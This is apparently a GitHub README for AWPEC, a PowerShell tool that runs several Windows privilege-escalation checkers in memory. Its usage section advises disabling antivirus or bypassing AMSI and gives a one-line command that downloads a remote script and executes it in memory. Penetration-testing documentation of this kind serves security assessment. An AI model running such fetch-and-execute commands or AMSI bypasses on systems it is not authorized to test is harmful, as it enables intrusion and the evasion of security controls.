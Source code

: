 <div align="center" width="100%">
    <h1>🔥 AWPEC 🔥</h1>
    <h3><b>Automated Windows Privilege Escalation Checks</b></h3>
    <p>PowerShell script that automates the tedious tasks of Windows Privilege Escalation</p><p>
    <a target="_blank" href="https://github.com/l4rm4nd"><img src="https://img.shields.io/badge/maintainer-LRVT-orange" /></a><br>
    <a href="https://www.buymeacoffee.com/LRVT" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
</div>

## 💎 Features

AWPEC runs the following privilege escalation tools in memory:

- PowerUp
- Seatbelt
- PrivescCheck
- WinPEAS

It also supports running ADRecon and auditing the results if you find yourself within an Active Directory domain context.

## 🎓 Usage

Since the AWPEC PowerShell script relies on various 3rd party tools, which are known for being flagged by AV, we have to either disable antivirus or actively bypass AMSI. Furthermore, as we utilize `PowerSharpPack`, which reflectively loads C# code, we must ensure to bypass AMSI .NET as well. A basic AMSI PS bypass is not sufficient!

So open a low-priv PowerShell terminal session, bypass AMSI (PS + .NET) and then run the PS script:

````powershell
# run the AWPEC script
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Haxxnet/AWPEC/main/Invoke-AWPEC.ps1')
````

## 💎 Acknowledgment & Credits

Many thanks to the following individuals:

- ❤ https://github.com/HarmJ0y
- ❤ https://github.com/leechristensen
- ❤ https://github.com/S3cur3Th1sSh1t
- ❤ https://github.com/carlospolop
- ❤ https://github.com/itm4n

